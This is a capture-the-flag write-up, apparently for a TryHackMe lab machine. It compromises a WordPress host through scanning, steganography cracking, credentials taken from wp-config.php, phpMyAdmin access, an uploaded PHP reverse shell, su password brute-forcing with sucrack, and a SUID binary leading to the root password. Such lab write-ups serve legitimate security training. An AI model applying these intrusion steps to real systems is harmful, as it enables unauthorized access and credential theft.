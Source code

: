 # Different CTF

### Task 1 Basic scan
can be done with nmap and gobuster

###### Nmap scan

`$ nmap -vv -p- IPADDR`

    Discovered open port 80/tcp on 10.10.228.110
    Discovered open port 21/tcp on 10.10.228.110
    PORT   STATE SERVICE REASON
    21/tcp open  ftp     syn-ack
    80/tcp open  http    syn-ack


###### gobuster result

`$ gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 30`

    /wp-content           (Status: 301) [Size: 319] [--> http://10.10.228.110/wp-content/]
    /a[REDACTED]       (Status: 301) [Size: 322] [--> http://10.10.228.110/a[REDACTED]/]
    /wp-includes          (Status: 301) [Size: 320] [--> http://10.10.228.110/wp-includes/]  
    /javascript           (Status: 301) [Size: 319] [--> http://10.10.228.110/javascript/]   
    /wp-admin             (Status: 301) [Size: 317] [--> http://10.10.228.110/wp-admin/]     
    /phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.228.110/phpmyadmin/] 


### Task 2 Localhost
`http://IPADDR/a[REDACTED]`

[![/a](https://i.imgur.com/KGz41yt.png "/a")](https://i.imgur.com/KGz41yt.png "/a")

now we have a image and wordlist looks like a job for stegcracker

password was at the eof took some time to crack

`$ stegcracker austrailian-bulldog-ant.jpg wordlist.txt`

    Successfully cracked file with password: [REDACTED]
    Tried 49--- passwords
    Your file has been written to: austrailian-bulldog-ant.jpg.out
    [REDACTED]

`$ cat austrailian-bulldog-ant.jpg.out `

    RlRQL[REDACTED]nRwClBBU1M6IDEyM2FkYW5hY3JhY2s=

`$ cat austrailian-bulldog-ant.jpg.out  | base64 -d`

    FTP-LOGIN
    USER: hakanftp
    PASS: 123[REDACTED]

`$ ftp IPADDR`

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 .
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 ..
    -rw-------    1 1001     1001           88 Jan 13 11:06 .bash_history
    drwx------    2 1001     1001         4096 Jan 11 10:29 .cache
    drwx------    3 1001     1001         4096 Jan 11 10:29 .gnupg
    -rw-r--r--    1 1001     1001          554 Jan 10 22:26 .htaccess
    drwxr-xr-x    2 0        0            4096 Jan 14 16:49 announcements
    -rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
    -rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
    -rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
    -rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
    -rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
    -rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
    -rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
    drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
    -rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
    -rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
    -rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
    -rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
    -rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
    -rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
    -rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
    -rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
    -rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
    226 Directory send OK.
    ftp> 

[Click to download php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Click to download php reverse shell")

[i used my own php shell click to go github page](https://github.com/rootkral4/phpreverseshell "i used my own php shell click to go github page")

i tried to upload php shell but server responded with 404
so download and read wp-config.php

` $ head -n 40 wp-config.php`

    define( 'DB_NAME', 'phpmyadmin1' );
    
    /** MySQL database username */
    define( 'DB_USER', 'phpmyadmin' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', '[REDACTED]' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );


`http://IPADDR/phpmyadmin`

logged in via creds in wp-config.php

[![](https://i.imgur.com/5Wjx7Zr.png)](https://i.imgur.com/5Wjx7Zr.png)

there is 2 phpmyadmin db
phpmyadmin1 -> wp_options -> site_url was a subdomain

`$ nano /etc/hosts` //add subdomain to hosts

`http://subdomain.adana.thm/`

this subdomain was same as main website
when i move to /phpshell.php, yes! php shell is here
got reverse shell finally

    remote@machine$ cd ..
    remote@machine$ cd html
    remote@machine$ cat wwe3bbfla4g.txt
    THM{343a7[REDACTED]c346edff}

then i searched for suid files nad found this one but others has no execute perm

    -rwxr-x--- 1 root hakanbey 238080 Nov  5  2017 /usr/bin/find

In this case, we know that we need to switch to the hakanbey user. Due to the similarity of stego and ftp passwords, the password of the hakanbey user can also be in this format.
123adana is prefix for passwords, created a wordlist(used wordlist.txt on ftp) with this prefix
after that i sent sucrack to remote machine 

`remote@machine$ dpkg -x sucrack_1.2.3-5+b1_amd64.deb sucrack`

`remote@machine$ sucrack -w 100 -b 500 -u hakanbey wordlist.txt`

after short period of time sucrack was succed

`remote@machine$ su hakanbey`

    THM{8ba9d7[REDACTED]d00e67127} //user flag

`remote@machine$ find / -perm -4000 -type f 2>/dev/null` // scanning for suid again

    /usr/bin/binary

`remote@machine$ ltrace ./binary`

    strcat("***", "****")                                                                                    = "******"
    strcat("******", "**")                                                                                  = "********"
    strcat("*********", "***")                                                                               = "************"
    strcat("************", "**")                                                                             = "*************"
    printf("I think you should enter the cor"...)                                                            = 52
    __isoc99_scanf(0x561c5b518edd, 0x7fff99056ac0, 0, 0I think you should enter the correct string here ==>^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++

got string

`remote@machine$ ./binary`

    I think you should enter the correct string here ==>w*************
    Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/root.jpg (CyberChef)
    
    Copy /root/root.jpg ==> /home/hakanbey/root.jpg

    00000000  FF D8 FF E0  00 10 4A 46   49 46 00 01  01 01 00 60                                                                                             ......JFIF.....`
    00000010  00 60 00 00  FF E1 00 78   45 78 69 66  00 00 4D 4D                                                                                             .`.....xExif..MM
    00000020  ** ** ** **  ** ** ** **   ** ** ** **  ** ** ** **                        // hint points this line                                                                     ...=y._..m..i..u
    00000030  00 00 00 56  03 01 00 05   00 00 00 01  00 00 00 68                                                                                             ...V...........h
    00000040  03 03 00 01  00 00 00 01   00 00 00 00  51 10 00 01                                                                                             ............Q...
    00000050  00 00 00 01  01 00 00 00   51 11 00 04  00 00 00 01                                                                                             ........Q.......
    00000060  00 00 0E C4  51 12 00 04   00 00 00 01  00 00 0E C4                                                                                             ....Q...........
    00000070  00 00 00 00  41 64 6F 62   65 20 49 6D  61 67 65 52                                                                                             ....Adobe ImageR
    00000080  65 61 64 79  00 00 00 01   86 A0 00 00  B1 8F FF DB                                                                                             eady............
    00000090  00 43 00 02  01 01 02 01   01 02 02 02  02 02 02 02                                                                                             .C..............
    000000A0  02 03 05 03  03 03 03 03   06 04 04 03  05 07 06 07                                                                                             ................

`https://cyberchef.com`

From HEX > To Base85
    root:[REDACTED]

`remote@machine$ su root`

    THM{c5a9d3[REDACTED]4466a6c}
